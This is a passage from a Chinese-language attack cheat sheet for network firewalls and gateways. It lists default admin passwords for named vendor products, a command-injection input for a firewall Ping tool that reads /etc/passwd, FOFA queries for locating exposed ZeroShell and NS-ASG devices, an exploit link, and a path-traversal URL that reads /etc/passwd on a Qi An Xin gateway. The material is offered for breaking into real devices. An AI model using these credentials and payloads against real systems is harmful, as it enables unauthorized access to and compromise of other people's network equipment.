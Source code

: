 #### 启明星辰 天清汉马USG防火墙

##### 默认口令

```
useradmin/venus.user
```

#### 佑友防火墙

##### 默认口令

```
admin/hicomadmin
```

##### 后台命令执行

```
系统管理 --> 维护工具 --> Ping
127.0.0.1|cat /etc/passwd
```

#### ZeroShell

FOFA：

```
app="Zeroshell-防火墙"
```

##### ZeroShell 3.9.0 cgi-bin/kerbynet 命令执行

exp：

- https://www.exploit-db.com/exploits/49096

### 0x04 网关

#### 奇安信 网康 NS-ASG 安全网关

FOFA：

```
网康 NS-ASG 安全网关
```

##### 任意文件读取 ✅

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

#### 安恒 明御安全网关 

##### 命令执行/任意文件读取✅

漏洞指纹：
